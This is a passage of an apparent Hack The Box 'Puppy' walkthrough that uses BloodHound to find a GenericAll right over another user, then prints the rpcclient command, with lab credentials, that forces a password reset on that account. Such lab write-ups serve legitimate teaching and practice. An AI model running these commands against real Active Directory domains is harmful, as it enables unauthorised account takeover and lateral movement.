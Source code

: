 ```
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 29S
```

<p class="indent-paragraph">
To explore the extent of <span class="blue">ant.edwards</span>'s influence within the domain, we ran a broader query to uncover any shortest privilege paths linking him to other user objects. Using<code>MATCH (n:User {name: 'ANT.EDWARDS@PUPPY.HTB'}), (m:User) WHERE n &lt; &gt; m WITH n, m MATCH p = shortestPath((n)-[*..4]-&gt;(m)) RETURN p</code><span class="codefix">,</span> we visualized the privilege graph around his account. The resulting BloodHound path revealed a particularly notable relationship: <span class="blue">ant.edwards</span> is a member of the<code>SENIOR DEVS</code> group, which holds <span class="highlight-red">GenericAll</span> permissions over <span class="blue">adam.silver</span>.</span> This means Edwards can reset Adam’s password or make any modification to his account — a promising vector for lateral movement.
</p>

<img src="/img/redteam/htb/puppy/graph_objects_ant-edwards.png" alt="BloodHound showing SENIOR DEVS GenericAll over Adam Silver">

### 🎯 Abusing GenericAll to Reset a Password

<p class="indent-paragraph">
While reviewing the permissions extracted via BloodHound, one edge stood out: <span class="highlight-red">GenericAll</span> granted to <span class="blue">ant.edwards</span> over<code>adam.silver</code><span class="codefix">.</span> This level of access permits full control over the target user object, including the ability to set a new password. Following the approach described in <a href="https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/" target="_blank" style="color: #89CFF0; text-decoration: none;"><strong>Abusing AD-DACL: ForceChangePassword</strong></a>, we connected to the domain controller using<code>rpcclient</code><span class="codefix">,</span> a powerful command-line tool for interacting with Windows services over SMB. By issuing<code>setuserinfo ADAM.SILVER 23 Ch4ng3Passw0rd@123</code><span class="codefix">,</span> we invoked the level<code>23</code> structure, which instructs the server to silently overwrite the user’s password without requiring the original. At first, login attempts failed with<code>STATUS_ACCOUNT_DISABLED</code><span class="codefix">.</span>
</p>


```
~$ rpcclient -U 'dc.puppy.htb\Ant.Edwards%Antman2025!' dc.puppy.htb

rpcclient $> setuserinfo ADAM.SILVER 23 Ch4ng3Passw0rd@123
rpcclient $> exit
```
